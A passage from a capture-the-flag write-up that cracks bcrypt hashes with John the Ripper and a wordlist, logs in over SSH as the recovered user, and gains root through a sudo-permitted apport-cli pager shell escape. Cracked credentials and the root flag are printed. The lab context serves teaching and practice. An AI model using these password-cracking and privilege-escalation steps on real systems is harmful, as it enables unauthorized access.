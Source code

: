 ```
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
2 rows in set (0.01 sec)
```
Bingo, we found 2 hashes in this table so we save both of them into a file, now we can try to perform a dictionary attack over them with `john -w=/usr/share/wordlists/rockyou.txt hashes`
```
Using default input encoding: UTF-8
Loaded 2 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tequieromucho    (?)
1g 0:00:00:20 DONE (2023-11-28 14:37) 0.04980g/s 69.92p/s 69.92c/s 69.92C/s lacoste..harry
Use the "--show" option to display all of the cracked passwords reliably
Session complete
```
The password of l`ogan` is `tequieromucho`
### Privilege escalation
We login as `logan` with SSH by running `ssh logan@$TARGET`
Now we have the user flag in our home inside `uset.txt`
In order to perform the privilege escalation we start by checking if our user is in some kind of special groups or if it is able to run any particular command as root `id && sudo -l`
```
uid=1000(logan) gid=1000(logan) groups=1000(logan)
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```
Since the user can run a command with sudo, we look for the specific version of the tool
```
sudo /usr/bin/apport-cli -v
2.20.11
```
With the version we can conduct a research to find if there are any known bugs that allow us to exploit it, we find this [reported exploitable bug](https://github.com/canonical/apport/commit/e5f78cc89f1f5888b6a56b785dddcb0364c48ecb). The tool needs a crash dump to be run, so to generate one we do `sleep 30 & killall -SIGSEGV sleep`
With our brand new crash dump generated we can finally use the tool `sudo apport-cli -c /var/crash/_usr_bin_sleep.1000.crash`
When the program asks us to choose a option we enter `V`, then we can write commands preceded by `!`
```
!id
uid=0(root) gid=0(root) groups=0(root)
!cat /root/root.txt
b4d42bc4f233290ecb69d2cb0b6b8b9f
```
️